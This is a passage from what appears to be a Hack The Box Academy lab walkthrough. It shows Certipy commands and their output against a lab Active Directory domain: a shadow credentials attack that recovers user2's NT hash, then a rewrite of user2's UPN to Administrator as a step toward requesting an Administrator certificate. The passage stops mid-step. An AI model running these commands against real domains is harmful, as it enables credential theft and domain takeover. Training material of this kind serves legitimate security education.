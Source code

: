Code: shell

```shell
certipy shadow auto -u blwasp@lab.local -p Password123! -account user2
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-aoyamvb8qf]─[~]
└──╼ [★]$ certipy shadow auto -u blwasp@lab.local -p Password123! -account user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'user2'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '2955b91a-876d-fdc1-9425-c88702051ede'
[*] Adding Key Credential with device ID '2955b91a-876d-fdc1-9425-c88702051ede' to the Key Credentials for 'user2'
[*] Successfully added Key Credential with device ID '2955b91a-876d-fdc1-9425-c88702051ede' to the Key Credentials for 'user2'
[*] Authenticating as 'user2' with the certificate
[*] Using principal: user2@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'user2.ccache'
[*] Trying to retrieve NT hash for 'user2'
[*] Restoring the old Key Credentials for 'user2'
[*] Successfully restored the old Key Credentials for 'user2'
[*] NT hash for 'user2': ee22ddf0f8a66db4217050e6a948f9d6
```

Afterward, students need to update the `UPN` of `user2` to be that of `Administrator` by using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` option and `Administrator` for the `-upn` option:

Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn Administrator
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-bnvlm3dysz]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : Administrator
[*] Successfully updated 'user2'
```

Then, students need to use the `req` command of `certipy`, specifying the template `User` (which allows `Client Authentication`) for the `-template` option and the previously attained NT hash `ee22ddf0f8a66db4217050e6a948f9d6` of `user2` for the `-hashes` option; students will attain a `PFX` certificate for the user `Administrator`:
